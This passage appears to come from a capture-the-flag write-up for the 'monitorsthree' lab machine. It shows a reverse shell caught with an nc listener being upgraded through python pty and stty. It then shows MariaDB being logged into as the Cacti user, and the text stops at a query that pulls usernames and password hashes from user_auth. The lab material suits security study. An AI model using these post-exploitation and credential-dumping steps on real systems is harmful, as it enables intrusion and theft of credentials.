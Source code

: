 ```bash
www-data@monitorsthree:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@monitorsthree:/$ ^Z
[1]+  Stopped                 nc -nvlp 7777

stty raw -echo; fg
nc -nvlp 7777
             export TERM=xterm
```

```bash
www-data@monitorsthree:/$ mysql -u cactiuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2675
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cacti              |
| information_schema |
| mysql              |
+--------------------+
3 rows in set (0.001 sec)

MariaDB [(none)]> use cacti
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MariaDB [cacti]>
```

I did enumerate a lot more of the database but the important queries are underlined below.

```
MariaDB [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
...
| snmpagent_notifications_log         |
| user_auth                           |
| user_auth_cache                     |
...
+-------------------------------------+
MariaDB [cacti]> show columns in user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
| username               | varchar(50)           | NO   | MUL | 0       |                |
| password               | varchar(256)          | NO   |     |         |                |
| realm                  | mediumint(8)          | NO   | MUL | 0       |                |
| full_name              | varchar(100)          | YES  |     | 0       |                |
...
+------------------------+-----------------------+------+-----+---------+----------------+
MariaDB [cacti]> select username,password from user_auth;
```